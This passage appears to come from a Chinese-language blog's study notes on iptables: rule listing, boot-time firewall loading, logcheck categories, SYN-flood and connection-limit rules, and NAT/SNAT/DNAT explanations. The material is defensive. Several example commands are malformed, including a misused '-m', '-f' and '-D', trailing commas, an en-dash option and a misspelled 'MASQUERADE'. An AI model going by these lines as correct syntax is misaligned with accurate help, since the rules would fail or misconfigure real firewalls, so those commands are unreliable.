class="number">.0</span><span class="string">/0</span> <span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:22</span></span><br><span class="line"><span class="number">4</span>       <span class="string">ACCEPT</span>  <span class="string">tcp</span>  <span class="string">--</span>  <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>      <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span> <span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:80</span></span><br><span class="line"><span class="number">5</span>       <span class="string">ACCEPT</span>  <span class="string">tcp</span>  <span class="string">--</span>  <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>      <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span> <span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:143</span></span><br><span class="line"><span class="comment"># iptables -D INPUT 2</span></span><br><span class="line"><span class="comment"># iptables -D INPUT 1</span></span><br><span class="line"><span class="comment"># iptables -n -L INPUT --line-numbers</span></span><br><span class="line"><span class="string">Chain</span> <span class="string">INPUT</span> <span class="string">(policy</span> <span class="string">ACCEPT)</span></span><br><span class="line"><span class="string">num</span>     <span class="string">target</span> <span class="string">prot</span> <span class="string">opt</span> <span class="string">source</span>          <span class="string">destination</span></span><br><span class="line"><span class="number">1</span>       <span class="string">ACCEPT</span> <span class="string">tcp</span>  <span class="string">--</span>  <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>       <span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:22</span></span><br><span class="line"><span class="number">2</span>       <span class="string">ACCEPT</span> <span class="string">tcp</span>  <span class="string">--</span>  <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>       <span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:80</span></span><br><span class="line"><span class="number">3</span>       <span class="string">ACCEPT</span> <span class="string">tcp</span>  <span class="string">--</span>  <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>       <span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:143</span></span><br><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="string">使防火墙从启动计算机就生效：</span></span><br><span class="line"><span class="string">防火墙文件：/usr/local/etc/arrakis.fw</span></span><br><span class="line"><span class="string">修改/etc/network/interfaces文件：（只有当你使用ifupdown管理网路时，修改这个文件才有用）</span></span><br><span class="line"><span class="string">auto</span> <span class="string">eth0</span></span><br><span class="line"><span class="string">iface</span> <span class="string">eth0</span> <span class="string">inet</span> <span class="string">static</span></span><br><span class="line"><span class="string">address</span> <span class="number">192.168</span><span class="number">.0</span><span class="number">.1</span></span><br><span class="line"><span class="string">network</span> <span class="number">192.168</span><span class="number">.0</span><span class="number">.0</span></span><br><span class="line"><span class="string">netmask</span> <span class="number">255.255</span><span class="number">.255</span><span class="number">.0</span></span><br><span class="line"><span class="string">broadcast</span> <span class="number">192.168</span><span class="number">.0</span><span class="number">.255</span></span><br><span class="line"><span class="string">up</span> <span class="string">/usr/local/etc/arrakis.fw</span></span><br><span class="line"><span class="string">保存</span></span><br><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="string">使用logcheck进行检测记录：</span></span><br><span class="line"><span class="string">模式：paranoid/server/workstation</span>   <span class="string">第一个主要用于防火墙，第二个普通服务，第三个是工作区，汇报很简洁（terse）</span></span><br><span class="line"><span class="string">规则类型：</span></span><br><span class="line"><span class="string">•</span> <span class="string">those</span> <span class="string">that</span> <span class="string">qualify</span> <span class="string">a</span> <span class="string">message</span> <span class="string">as</span> <span class="string">a</span> <span class="string">cracking</span> <span class="string">attempt</span> <span class="string">(stored</span> <span class="string">in</span> <span class="string">a</span> <span class="string">file</span> <span class="string">in</span> <span class="string">the</span> <span class="string">/etc/logcheck/cracking.d/</span> <span class="string">directory);破解预警</span></span><br><span class="line"><span class="string">•</span> <span class="string">ignored</span> <span class="string">cracking</span> <span class="string">attempts</span> <span class="string">(/etc/logcheck/cracking.ignore.d/);忽略的破解预警</span></span><br><span class="line"><span class="string">•</span> <span class="string">those</span> <span class="string">classifying</span> <span class="string">a</span> <span class="string">message</span> <span class="string">as</span> <span class="string">a</span> <span class="string">security</span> <span class="string">alert</span> <span class="string">(/etc/logcheck/violations.d/);安全警告</span></span><br><span class="line"><span class="string">•</span> <span class="string">ignored</span> <span class="string">security</span> <span class="string">alerts</span> <span class="string">(/etc/logcheck/violations.ignore.d/);忽略的安全警告</span></span><br><span class="line"><span class="string">•</span> <span class="string">finally,</span> <span class="string">those</span> <span class="string">applying</span> <span class="string">to</span> <span class="string">the</span> <span class="string">remaining</span> <span class="string">messages</span> <span class="string">(considered</span> <span class="string">as</span> <span class="string">system</span> <span class="string">events).其他事件被当做系统事件</span></span><br><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="comment"># 使用示例</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">防止DDoS：</span></span><br><span class="line"><span class="comment">#防止SYN攻击 轻量级预防 </span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-N</span> <span class="string">syn-flood</span> </span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--syn</span> <span class="string">-j</span> <span class="string">syn-flood</span> </span><br><span class="line"><span class="string">iptables</span> <span class="string">-I</span> <span class="string">syn-flood</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">-m</span> <span class="string">limit</span> <span class="string">--limit</span> <span class="number">3</span><span class="string">/s</span> <span class="string">--limit-burst</span> <span class="number">6</span> <span class="string">-j</span> <span class="string">RETURN</span> </span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">syn-flood</span> <span class="string">-j</span> <span class="string">REJECT</span></span><br><span class="line"></span><br><span class="line"><span class="comment">#防止DOS太多连接进来,可以允许外网网卡每个IP最多15个初始连接,超过的丢弃 </span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-i</span> <span class="string">eth0</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--syn</span> <span class="string">-m</span> <span class="string">connlimit</span> <span class="string">--connlimit-above</span> <span class="number">15</span> <span class="string">-j</span> <span class="string">DROP</span> </span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">ESTABLISHED,RELATED</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"></span><br><span class="line"><span class="comment">#用Iptables抵御DDOS (参数与上相同)</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span>  <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--syn</span> <span class="string">-m</span> <span class="string">limit</span> <span class="string">--limit</span> <span class="number">12</span><span class="string">/s</span> <span class="string">--limit-burst</span> <span class="number">24</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">FORWARD</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--syn</span> <span class="string">-m</span> <span class="string">limit</span> <span class="string">--limit</span> <span class="number">1</span><span class="string">/s</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--dport</span> <span class="number">80</span> <span class="string">-m</span> <span class="string">recent</span> <span class="string">--name</span> <span class="string">BAD_HTTP_ACCESS</span> <span class="string">--update</span> <span class="string">--seconds</span> <span class="number">60</span> <span class="string">--hitcount</span> <span class="number">30</span> <span class="string">-j</span> <span class="string">REJECT</span> <span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--dport</span> <span class="number">80</span> <span class="string">-m</span> <span class="string">recent</span> <span class="string">--name</span> <span class="string">BAD_HTTP_ACCESS</span> <span class="string">--set</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="comment">#单个IP在60秒内只允许最多新建30个连接</span></span><br><span class="line"></span><br><span class="line"><span class="attr">iptables INPUT/OUTPUT:</span></span><br><span class="line"><span class="number">1</span><span class="string">、限制本地主机的web服务器在周一不允许访问，且新增请求的速率不允许超过100个每秒，web字符包含admin字符的页面不允许访问，</span></span><br><span class="line"><span class="string">web服务仅允许响应报文离开本机</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-I</span> <span class="string">INPUT</span> <span class="number">1</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">ESTABLISHED,RELATED,</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-d</span> <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--dport</span> <span class="number">80</span> <span class="string">-m</span> <span class="string">time</span> <span class="string">--weekdays</span> <span class="string">Tue,Wed,Thu,Fri,Sat,Sun</span> <span class="string">-m</span> <span class="string">--limit</span> <span class="number">100</span><span class="string">/sec</span> <span class="string">-m</span> <span class="string">string</span> <span class="string">--algo</span> <span class="string">kmp</span> <span class="string">!</span> <span class="string">--string</span> <span class="string">"admin"</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">NEW</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-I</span> <span class="string">OUTPUT</span> <span class="number">1</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">ESTABLISHED,RELATED,</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"></span><br><span class="line"><span class="number">2</span><span class="string">、在工作时间，即周一到周五的8:30-17:30，开放本机的ftp服务给172.16.0.0的网络中主机访问数据下载请求次数每秒钟不超过5个</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-I</span> <span class="string">INPUT</span> <span class="number">1</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">ESTABLISHED,</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-s</span> <span class="number">172.16</span><span class="number">.0</span><span class="number">.0</span><span class="string">/16</span> <span class="string">-d</span> <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--dport</span> <span class="number">21</span> <span class="string">-m</span> <span class="string">time</span> <span class="string">--weekdays</span> <span class="string">Mon,Tue,Wed,Thu,Fri</span> <span class="string">--timestart</span> <span class="number">08</span><span class="string">:30:00</span> <span class="string">--timestop</span> <span class="number">17</span><span class="string">:30:00</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-s</span> <span class="number">172.16</span><span class="number">.0</span><span class="number">.0</span><span class="string">/16</span> <span class="string">-d</span> <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">RELATED</span> <span class="string">-m</span> <span class="string">limit</span> <span class="number">5</span><span class="string">/min</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-I</span> <span class="string">OUTPUT</span> <span class="number">1</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">ESTABLISHED</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"></span><br><span class="line"><span class="number">3</span><span class="string">、开放本机的ssh服务给172.16.x.1-172.16.x.100网络中的主机，新请求速率每分钟不得超过2个,仅允许响应报文通过其服务端口离开本机</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-m</span> <span class="string">iprange</span> <span class="string">--src-range</span> <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span><span class="number">-172.16</span><span class="number">.100</span><span class="number">.100</span> <span class="string">-m</span> <span class="string">limit</span> <span class="string">--limit</span> <span class="number">2</span><span class="string">/min</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--dport</span> <span class="number">22</span> <span class="string">-d</span> <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span> <span class="string">-i</span> <span class="string">eth0</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">NEW</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"></span><br><span class="line"><span class="number">4</span><span class="string">、拒绝tcp状态标志位为1及全部为0的报文访问本机</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-N</span> <span class="string">clean_in</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">clean_in</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--tcp-flags</span> <span class="string">ALL</span> <span class="string">ALL</span> <span class="string">-j</span> <span class="string">DROP</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">clean_in</span> <span class="string">-p</span> <span class="string">tcp</span> <span class="string">--tcp-flags</span> <span class="string">ALL</span> <span class="string">NONE</span> <span class="string">-j</span> <span class="string">DROP</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">clean_in</span> <span class="string">-f</span> <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span> <span class="string">-j</span> <span class="string">RETURN</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-I</span> <span class="string">INPUT</span> <span class="number">1</span> <span class="string">-D</span> <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span> <span class="string">-j</span> <span class="string">clean_in</span></span><br><span class="line"></span><br><span class="line"><span class="number">5</span><span class="string">、允许本地请求本地</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-s</span> <span class="number">127.0</span><span class="number">.0</span><span class="number">.1</span> <span class="string">-d</span> <span class="number">127.0</span><span class="number">.0</span><span class="number">.1</span> <span class="string">-j</span> <span class="string">ACCEPT</span> <span class="string">或</span> <span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-i</span> <span class="string">lo</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">OUTPUT</span> <span class="string">-s</span> <span class="number">127.0</span><span class="number">.0</span><span class="number">.1</span> <span class="string">-d</span> <span class="number">127.0</span><span class="number">.0</span><span class="number">.1</span> <span class="string">-j</span> <span class="string">ACCEPT</span> <span class="string">或</span> <span class="string">iptables</span> <span class="string">-A</span> <span class="string">OUTPUT</span> <span class="string">-o</span> <span class="string">lo</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"></span><br><span class="line"><span class="number">6</span><span class="string">、允许本地主机ping别的主机，别的主机不允许ping本地主机</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-m</span> <span class="string">state</span> <span class="string">--state</span> <span class="string">ESTABLISHED,</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">OUTPUT</span> <span class="string">-s</span> <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span> <span class="string">-p</span> <span class="string">icmp</span> <span class="string">--icmp-type</span> <span class="number">8</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">INPUT</span> <span class="string">-i</span> <span class="string">lo</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables</span> <span class="string">-A</span> <span class="string">OUTPUT</span> <span class="string">-o</span> <span class="string">lo</span> <span class="string">-j</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="string">关于NAT表：</span></span><br><span class="line"><span class="string">prerouting</span> <span class="string">：用于目标地址转换（DNAT）</span></span><br><span class="line"><span class="string">input</span>      <span class="string">：处理输入数据包，如果数据包的目的地址是本机，则系统将数据包送往Input链。如果通过规则检查，则该包被发给相应的本地进程处理；如果没有通过规则检查，系</span></span><br><span class="line">             <span class="string">统就会将这个包丢掉。</span></span><br><span class="line"><span class="string">forward</span>    <span class="string">：处理转发数据包，如果数据包的目的地址不是本机，也就是说，这个包将被转发，则系统将数据包送往Forward链。如果通过规则检查，则该包被发给相应的本地进程</span></span><br><span class="line">             <span class="string">处理;</span> <span class="string">如果没有通过规则检查，系统就会将这个包丢掉。</span></span><br><span class="line"><span class="string">output</span>     <span class="string">：处理输出数据包，如果数据包是由本地系统进程产生的，则系统将其送往Output链。如果通过规则检查，则该包被发给相应的本地进程处理；如果没有通过规则检查，</span></span><br><span class="line">             <span class="string">系统就会将这包丢掉。</span></span><br><span class="line"><span class="string">postrouting：用于源地址转换（SNAT）</span></span><br><span class="line"></span><br><span class="line"><span class="string">按照类型分，NAT分为静态NAT（staticNAT）、NAT池（pooledNAT）和端口NAT（PAT）。</span></span><br><span class="line"><span class="string">RFC</span> <span class="number">1918</span> <span class="string">为私有网络预留出了三个IP</span> <span class="string">地址块，如下：</span></span><br><span class="line">	<span class="string">A</span> <span class="string">类：</span>   <span class="number">10.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">～10.255.255.255</span></span><br><span class="line">	<span class="string">B</span> <span class="string">类：</span>   <span class="number">172.16</span><span class="number">.0</span><span class="number">.0</span><span class="string">～172.31.255.255</span></span><br><span class="line">	<span class="string">C</span> <span class="string">类：</span>   <span class="number">192.168</span><span class="number">.0</span><span class="number">.0</span><span class="string">～192.168.255.255</span> </span><br><span class="line"><span class="string">NAPT：网络地址端口转换NAPT（Network</span> <span class="string">Address</span> <span class="string">Port</span> <span class="string">Translation）</span></span><br><span class="line"><span class="string">NAT</span> <span class="string">：NAT（Network</span> <span class="string">Address</span> <span class="string">Translation，网络地址转换）</span></span><br><span class="line"><span class="comment"># 上面二者不同，但是NAPT可说是NAT的一种流行的变体。NAPT也被称为“一对多”的NAT，或者叫PAT（Port Address Translations，端口地址转换）、地址超载（address overloading）。</span></span><br><span class="line"></span><br><span class="line"><span class="string">如果在地址转换的时候，加上端口号来区分是哪个私有IP,就可以解决上面的多台内部计算机和外界通信的问题了。这就是NAPT。</span></span><br><span class="line"><span class="string">NAT</span> <span class="string">：一个全局IP对应一个私有IP（即一台计算机）</span></span><br><span class="line"><span class="string">NAPT：一个全局IP+不同的端口号对应多个私有IP（即多台计算机）</span></span><br></pre></td></tr></table></figure>
<script type="math/tex; mode=display">
NAT\begin{cases}
    Static Nat-静态转换NAT\ ——> 一对一\\
    Dynamic Nat/Pooled NAT-动态转换NAT\ ——> 一对多\\
    【Port address Translation/Network Address Port \\
    Translation/Port-Level \\
    NAT-端口多路复用NAT(PAT/NAPT)】\ ——> 多对一
        \begin{cases}
        SNAT\\
        DNAT\\
        \end{cases}\\
    \end{cases}\\</script><p></p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br></pre></td><td class="code"><pre><span class="line">NAPT:</span><br><span class="line">SNAT:内网访问外网</span><br><span class="line">   本地IP                 路由器（公网IP）                   目的地址</span><br><span class="line"> <span class="number">10.1</span><span class="number">.1</span><span class="number">.1</span>  &lt;=========&gt;       <span class="number">201.0</span><span class="number">.0</span><span class="number">.1</span>      &lt;=========&gt;  +-<span class="number">-201.0</span><span class="number">.0</span><span class="number">.11</span></span><br><span class="line"> <span class="number">10.1</span><span class="number">.1</span><span class="number">.2</span>  &lt;=========&gt;       <span class="number">201.0</span><span class="number">.0</span><span class="number">.2</span>      &lt;=========&gt;  |  </span><br><span class="line"></span><br><span class="line">DNAT:外网访问内网</span><br><span class="line">   公网IP                    路由器（公网IP）                 目的地址 </span><br><span class="line"> <span class="number">201.0</span><span class="number">.0</span><span class="number">.11</span>  &lt;=========&gt;     <span class="number">201.0</span><span class="number">.0</span><span class="number">.1</span>:<span class="number">6666</span>    &lt;=========&gt;    <span class="number">10.1</span><span class="number">.1</span><span class="number">.1</span>:<span class="number">22</span> </span><br><span class="line"></span><br><span class="line">iptables添加SNAT:iptables -t nat(nat表) -A POSTROUTING(链) -s LocalNET!(希望通过SNAT出去，连接互联网的IP地址范围。) ! -d LocalNet(目标IP地址，写不写都行。“！”号是取反的意思。) -j SNAT(指的是NAT的SNAT) --to source-ExtIP(公有地址：企业外网的IP地址。IP地址必须固定)</span><br><span class="line">设置公司内网<span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>/<span class="number">24</span>网段的电脑，且目标地址不是<span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>/<span class="number">24</span>网段，即可通过公司外网<span class="number">101.200</span><span class="number">.168</span><span class="number">.1</span><span class="number">-168.200</span><span class="number">.168</span><span class="number">.9</span>中的IP地址访问互联网:</span><br><span class="line">iptables -t nat -A POSTROUTING -s <span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>/<span class="number">24</span>! –d <span class="number">10.0</span><span class="number">.1</span><span class="number">.1</span>/<span class="number">24</span> -j SNAT --to-source <span class="number">101.200</span><span class="number">.168</span><span class="number">.1</span><span class="number">-168.200</span><span class="number">.168</span><span class="number">.9</span>（必须是外网固定IP地址）</span><br><span class="line">来自<span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>/<span class="number">24</span>! --&gt; 目的地<span class="number">10.0</span><span class="number">.1</span><span class="number">.1</span>/<span class="number">24</span></span><br><span class="line"></span><br><span class="line">MASQUERADE：动态IP 是SNAT的特例</span><br><span class="line">iptables -t nat -A POSTROUTING -s LocalNET ! -d LocalNet -j MASQUERADE(伪装。即伪装成，“当时动态IP地址” 或 “当时拨号上网的IP地址”；或者可以用专线)</span><br><span class="line">设置公司内网<span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>网段的电脑，可以同过公司外网,访问互联网:</span><br><span class="line">iptables -t nat -A POSTROUTING -s <span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>/<span class="number">24</span>! –d <span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>/<span class="number">24</span> -j MASQUERADE </span><br><span class="line">来自<span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>/<span class="number">24</span> --&gt; 目的地<span class="number">10.0</span><span class="number">.1</span><span class="number">.0</span>/<span class="number">24</span></span><br><span class="line"></span><br><span class="line">e.g.：iptables -t nat -A POSTROUTING -s <span class="number">10.8</span><span class="number">.0</span><span class="number">.0</span>/<span class="number">255.255</span><span class="number">.255</span><span class="number">.0</span> -o eth0 -j MASQUERADE</span><br><span class="line">不管现在eth0的出口获得了怎样的动态ip，MASQUERADE会自动读取eth0现在的ip地址然后做SNAT出去</span><br><span class="line"></span><br><span class="line">设置NAT服务器：</span><br><span class="line">iptables -t nat -A POSTROUTING -s <span class="number">192.168</span><span class="number">.238</span><span class="number">.0</span>/<span class="number">24</span> ! -d <span class="number">192.168</span><span class="number">.238</span><span class="number">.0</span>/<span class="number">24</span> -j SNAT --to-source <span class="number">172.22</span><span class="number">.142</span><span class="number">.211</span></span><br><span class="line">查看:</span><br><span class="line">[<span class="symbol">root@</span>centos7nat ~]# iptables -vnL -t nat</span><br><span class="line"> Chain    PREROUTING (policy ACCEPT <span class="number">20</span> packets, <span class="number">3295</span> bytes)</span><br><span class="line"> pkts       bytes     target      prot    opt  <span class="keyword">in</span>     <span class="keyword">out</span>           source            destination   </span><br><span class="line">  <span class="number">0</span>           <span class="number">0</span>        SNAT       all      --   *      *       <span class="number">192.168</span><span class="number">.238</span><span class="number">.0</span>/<span class="number">24</span>     !<span class="number">192.168</span><span class="number">.238</span><span class="number">.0</span>/<span class="number">24</span>     to:<span class="number">172.22</span><span class="number">.142</span><span class="number">.211</span></span><br><span class="line"></span><br><span class="line">SNAT是指在数据包从网卡发送出去的时候，把数据包中的源地址部分替换为指定的IP，这样，接收方就认为数据包的来源是被替换的那个IP的主机；</span><br><span class="line"></span><br><span class="line">MASQUERADE是用发送数据的网卡上的IP来替换源IP，因此，对于那些IP不固定的场合，比如拨号网络或者通过dhcp分配IP的情况下，就得用MASQUERADE；</span><br><span class="line"></span><br><span class="line">DNAT，就是指数据包从网卡发送出去的时候，修改数据包中的目的IP，表现为如果你想访问A，可是因为网关做了DNAT，把所有访问A的数据包的目的IP全部修改为B，那么，你实际上访问的是B；因为，路由是按照目的地址来选择的，因此，DNAT是在PREROUTING链上来进行的，而SNAT是在数据包发送出去的时候才进行，因此是在POSTROUTING链上进行的。</span><br><span class="line"></span><br><span class="line">iptables NAT:</span><br><span class="line">SNAT：代理内部客户端访问外部网络。在iptables上的POSTROUTING</span><br><span class="line">-j SNAT --to-source IP</span><br><span class="line">-j MASGUEGRADE</span><br><span class="line">服务器地址为<span class="number">192.168</span><span class="number">.10</span><span class="number">.10</span>（模拟内网地址）</span><br><span class="line">nat服务器，两块网卡，一个网卡地址为<span class="number">192.168</span><span class="number">.10</span><span class="number">.11</span>（模拟内网地址），一个网卡地址为<span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span> （模拟外网地址）</span><br><span class="line">web服务器的地址为<span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span>（模拟外网地址）</span><br><span class="line">一、如何通过<span class="number">192.168</span><span class="number">.10</span><span class="number">.10</span>（模拟内网地址）服务器访问<span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span>（模拟外网地址）</span><br><span class="line">方法一</span><br><span class="line"><span class="number">1</span>、开启ip_forward为<span class="number">1</span></span><br><span class="line"><span class="number">2</span>、iptables -P FORWARD ACCEPT</span><br><span class="line"><span class="number">3</span>、iptables -t nat -A POSTROUTING -s <span class="number">192.168</span><span class="number">.10</span><span class="number">.0</span>/<span class="number">24</span> -j SNAT --to-source <span class="number">172.16</span><span class="number">.100</span><span class="number">.1</span></span><br><span class="line">方法二</span><br><span class="line">分别在<span class="number">192.168</span><span class="number">.10</span><span class="number">.10</span>上、<span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span>写路由</span><br><span class="line">二、仅允许<span class="number">192.168</span><span class="number">.10</span><span class="number">.10</span>服务器访问<span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span>的web服务</span><br><span class="line">iptables -P FORWARD DROP</span><br><span class="line">iptables -A FORWARD -s <span class="number">192.168</span><span class="number">.10</span><span class="number">.0</span>/<span class="number">24</span> -p tcp --dport <span class="number">80</span> -j ACCEPT</span><br><span class="line">iptables -A FORWARD -d <span class="number">192.168</span><span class="number">.10</span><span class="number">.0</span>/<span class="number">24</span> -p tcp --sport <span class="number">80</span> -j ACCEPT</span><br><span class="line"></span><br><span class="line">DNAT：将内部服务器发布至外部网络(外部访问内部服务应用，此场景下ftp比较麻烦) 在iptable上的PREROUTING</span><br><span class="line">-j DNAT --to-destination IP</span><br><span class="line">外部通过访问<span class="number">192.168</span><span class="number">.10</span><span class="number">.254</span>（模拟外网地址）的<span class="number">80</span>取代 直接访问<span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span>（模拟内网地址）的<span class="number">80</span></span><br><span class="line">即在<span class="number">192.168</span><span class="number">.10</span><span class="number">.254</span>的<span class="number">80</span>到<span class="number">172.16</span><span class="number">.100</span><span class="number">.17</span>的<span class="number">80</span>做映射关系</span><br><span class="line">iptables -P FORWARD ACCEPT</span><br><span class="line">iptables -t nat -A PREROUTING -d <span class="number">192.168</span><span class="number">.10</span><span class="number">.254</span> -p tcp --dport 